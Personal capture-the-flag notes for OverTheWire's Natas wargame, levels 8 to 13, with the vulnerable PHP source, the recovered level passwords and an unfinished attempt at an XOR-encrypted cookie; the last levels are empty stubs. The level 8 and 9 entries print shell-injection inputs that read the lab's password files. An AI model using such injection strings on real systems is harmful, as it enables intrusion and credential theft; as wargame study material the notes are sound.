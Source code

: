 ## What we learned

- `xor cipher` is a symmetric function, which means that `plaintext ^ key = ciphertext` and `plaintext ^ ciphertex = key`


Flag: `Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd`

%% ------------------------------------------------------------------

### Level 8 -> Level 9

Goal: 

```
Username: natas9
URL:      http://natas9.natas.labs.overthewire.org

<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>

the function 'passthru' execute the command passed

2. submit
>>> b /dev/null; cat /etc/natas_webpass/natas10;
D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE

Note: we can also submit . /etc/natas_webpass/natas10


```

Flag: `D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE`

%% ------------------------------------------------------------------

### Level 9 -> Level 10

Goal: 

```
Username: natas10
URL:      http://natas10.natas.labs.overthewire.org


<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>

2. submit: ". /etc/natas_webpass/natas11 #"
/etc/natas_webpass/natas11:1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg

>>> python natas10.py

```

Flag: `1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg`


%% ------------------------------------------------------------------

### Level 10 -> Level 11

Goal: 

```
Username: natas11
URL:      http://natas11.natas.labs.overthewire.org

>>> python3 natas11.py

<?

$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
}

function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}

$data = loadData($defaultdata);

if(array_key_exists("bgcolor",$_REQUEST)) {
    if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
        $data['bgcolor'] = $_REQUEST['bgcolor'];
    }
}

?>

<h1>natas11</h1>
<div id="content">
<body style="background: <?=$data['bgcolor']?>;">
Cookies are protected with XOR encryption<br/><br/>

<?
if($data["showpassword"] == "yes") {
    print "The password for natas12 is <censored><br>";
}

?>



saveData($data);



1. get the cookie from python: request.Session(); session.cookies
Cookie:   MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5oKC4qLSgubjY%3D
Unquoted: MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5oKC4qLSgubjY=

%3D -> url encoded character

2. get XOR cipher key: plaintext ^ ciphertext = key
plaintext: 
ciphertext: 


3. 

```

Flag: ``



%% ------------------------------------------------------------------

### Level 11 -> Level 12

Goal: 

```
Username: natas12
URL:      http://natas12.natas.labs.overthewire.org

>>> python3 natas12.py

```

Flag: ``


%% ------------------------------------------------------------------

### Level 12 -> Level 13

Goal: 

```
Username: natas13
URL:      http://natas13.natas.labs.overthewire.org

>>> python3 natas13.py

```

Flag: ``



